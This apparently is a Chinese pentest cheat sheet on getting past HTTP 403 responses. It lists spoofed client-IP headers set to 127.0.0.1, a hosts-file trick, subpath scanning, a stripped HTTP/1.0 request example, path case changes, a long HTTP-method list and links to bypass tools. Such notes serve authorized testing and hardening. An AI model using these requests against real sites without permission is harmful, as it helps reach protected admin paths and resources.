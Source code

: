 # 请求响应不同状态码绕过

## 403

### 设置headers头

    X-Forwarded-For: 127.0.0.1
    X-Forwarded: 127.0.0.1
    Forwarded-For: 127.0.0.1
    Forwarded: 127.0.0.1
    X-Requested-With: 127.0.0.1
    X-Forwarded-Proto: 127.0.0.1
    X-Forwarded-Host: 127.0.0.1
    X-remote-IP: 127.0.0.1
    X-remote-addr: 127.0.0.1
    True-Client-IP: 127.0.0.1
    X-Client-IP: 127.0.0.1
    Client-IP: 127.0.0.1
    X-Real-IP: 127.0.0.1
    Ali-CDN-Real-IP: 127.0.0.1
    Cdn-Src-Ip: 127.0.0.1
    Cdn-Real-Ip: 127.0.0.1
    CF-Connecting-IP: 127.0.0.1
    X-Cluster-Client-IP: 127.0.0.1
    WL-Proxy-Client-IP: 127.0.0.1
    Proxy-Client-IP: 127.0.0.1
    Fastly-Client-Ip: 127.0.0.1
    True-Client-Ip: 127.0.0.1
    X-Originating-IP: 127.0.0.1
    X-Host: 127.0.0.1
    X-Custom-IP-Authorization: 127.0.0.1
    
### 修改hosts文件

修改本地hosts文件，将域名绑定本地ip

### 扫描403路径的子路径

对403的路径进行dirsearch扫描

### http协议版本改为1.0同时清除掉请求中除了第一行以外的数据

1. 当清除所有header值时，服务器对 Host 做出响应

2. http协议版本改为1.0同时清除掉请求中除了第一行以外的数据

> 如果服务器和任何其他安全机制没有以正确的方式配置，我们不需要将 Host 放在 header 中。
>
> 它将目标地址本身放在标头中，称为本地地址。也使用这种方法绕过（CDN）并获取服务器IP在 Location 中，它在返回中向我们显示了域本身的地址。
>
> 再次使用相同的方法发送请求，这次它会显示服务器的主地址。

举例：

删除所有header的请求包

    GET /xxx/xxx HTTP/1.1
    HOST: xxx.com
    User-Agent: curl/7.7
    Accept: */*
    Connection: close
    
服务器对HOST做出了响应，然后http协议版本改为1.0同时清除掉请求中除了第一行以外的数据

    GET /xxx/xxx HTTP/1.1
    
成功绕过403

### 大小写绕过

举例

    xxx.com/admin 403
    xxx.com/Admin 200
    
### HTTP请求方法绕过

    OPTIONS
    GET
    HEAD
    POST
    PUT
    TRACE
    PURGE
    CONNECT
    PROPFIND
    PROPPATCH
    MKCOL
    COPY
    MOVE
    LOCK
    UNLOCK
    VERSION-CONTROL
    REPORT
    CHECKOUT
    CHECKIN
    UNCHECKOUT
    MKWORKSPACE
    UPDATE
    LABEL
    MERGE
    BASELINE-CONTROL
    MKACTIVITY
    ORDERPATCH
    ACL
    PATCH
    SEARCH
    ARBITRARY
    BIND
    LINK
    MKCALENDAR
    MKREDIRECTREF
    PRI
    QUERY
    REBIND
    UNBIND
    UNLINK
    UPDATEREDIRECTREF
    options
    get
    head
    post
    put
    trace
    purge
    connect
    propfind
    proppatch
    mkcol
    copy
    move
    lock
    unlock
    version-control
    report
    checkout
    checkin
    uncheckout
    mkworkspace
    update
    label
    merge
    baseline-control
    mkactivity
    orderpatch
    acl
    patch
    search
    arbitrary
    bind
    link
    mkcalendar
    mkredirectref
    pri
    query
    rebind
    unbind
    unlink
    updateredirectref
    POUET
    TRACK
    
### 工具推荐

    https://github.com/Dheerajmadhukar/4-ZERO-3
    https://github.com/iamj0ker/bypass-403
    https://github.com/yunemse48/403bypasser
    https://github.com/sting8k/BurpSuite_403Bypasser
    https://github.com/lobuhi/byp4xx
    
